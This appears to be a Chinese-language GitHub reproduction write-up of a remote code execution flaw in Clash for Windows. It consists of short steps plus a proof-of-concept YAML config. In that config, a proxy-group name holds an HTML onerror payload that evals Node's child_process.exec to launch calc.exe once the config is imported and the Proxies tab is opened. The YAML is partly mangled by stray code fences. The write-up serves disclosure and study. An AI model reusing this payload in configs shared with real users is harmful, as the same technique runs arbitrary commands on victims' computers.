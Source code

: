 # Clash_for_Windows-

Clash_for_Windows远程代码执行漏洞:

# 0x01:clash介绍

```
A Windows/macOS/Linux GUI based on Clash and Electron.
```

# 

# 0x02:漏洞复现

## 从以下链接下载Windows版本：

<div>
https://github.com/Fndroid/clash_for_windows_pkg/releases
</div>

## 在windows10虚拟机中打开Clash_for_Windows

# 0x03:poc

````
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
name: atype: socks5
server: 127.0.0.1
port: "17938"
skip-cert-verify: true
name: abc
type: socks5
server: 127.0.0.1
port: "8088"
skip-cert-verify: true
```
proxy-groups:
```

name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
type: select
proxies:
- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
````

## 导入该poc：

import

### 在当前界面点击：

Proxies

# 此时弹出计算器，漏洞成功利用。

# 0x04:

###### 原作者pr链接：

```
https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 
```

里面包含了poc和复现方法。

本次本地复现来源于上述链接！

